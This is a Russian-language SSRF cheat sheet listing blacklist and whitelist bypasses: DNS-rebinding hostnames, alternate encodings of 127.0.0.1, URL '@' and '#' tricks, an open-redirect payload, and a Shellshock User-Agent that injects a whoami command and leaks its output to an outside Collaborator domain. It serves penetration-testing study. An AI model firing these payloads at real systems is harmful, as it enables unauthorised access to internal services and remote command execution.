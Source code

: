 ## Введение

**Подделка запросов на стороне сервера (SSRF)** — это критическая уязвимость безопасности, позволяющая злоумышленникам манипулировать запросами на стороне сервера и потенциально получать доступ к конфиденциальным ресурсам или выполнять вредоносные действия.

Шаблоны атак: [PayloadsAllTheThings/Server Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
Обходы валидации URL (Portswigger): [URL validation bypass cheat sheet for SSRF/CORS](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

---

## Обход защиты чёрного списка

---

#### DNS rebinding

- `make-1.2.3.4-rebind-127.0-0.1-rr.1u.ms` 
  > Здесь можно менять "1.2.3.4" и "127.0.0.1" на любой другой. Резолвится в:
  > 1. 172.?.?.?
  > 2. 1.2.3.4
  
-  `double.terjanq.me`
  > Резолвится в:
  > 1. 127.0.0.1
  > 2. 51.38.138.162
- `7f000001.2223367c.rbndr.us`  
  >  Здесь адреса представлены в 16и-ричном виде в саб-доменах. Резолвится в:
  >  1. 127.0.0.1
  >  2. 34.35.54.124
- `spoofed.burpcollaborator.net` 
  > резолвится в 
  > 1. 127.0.0.1

DNS rebinding attack framework: [nccgroup/singularity](https://github.com/nccgroup/singularity)

---

#### Альтернативное представление IP-адреса

127.0.0.1:
1. 2130706433 - десятичная система счисления
2. 017700000001
3. 127.1
4. spoofed.burpcollaborator.net
5. localhost
6. 0177.0.0.1
7. \[::ffff:127:0:0:1]
8. 0.0.0.0

Инструмент для получения альтернативных представлений IP адреса: [IPFuscator](https://github.com/vysecurity/IPFuscator)

---

#### Другие варианты

1. URL-кодировки и разные варианты регистра
2. Замена https на http и наоборот

---

## Обход защиты белого списка

---

##### Вставка учётных данных в URL-адрес перед именем хоста, используя символ `@`

1. https://`ожидаемый-хост:какойтоПароль@`зловредный-хост

---

##### Использование символа `#` для обозначения якоря в URL

1. https://зловредный-хост`#ожидаемый-хост`

---

##### Использование иерархии DNS-имён, чтобы поместить необходимые входные данные в полное DNS-имя, которым можно управлять

1. https://`ожидаемый-хост.`зловредный-хост

---

##### URL кодировки

---

##### Всё вместе

1. http://localhost:80#@stock.weliketoshop.net/admin

---

##### Open redirect
`stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=1%26path=`http://192.168.0.68/admin

---

## Blind SSRF

Подробнее: [PayloadsAllTheThings/SSRF#Bliend SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#blind-ssrf)

#### Shell Shock
User-Agent: `() {:;}; $(whoami).burpcollaborator.net`
Referer: `http://192.168.0.$1$`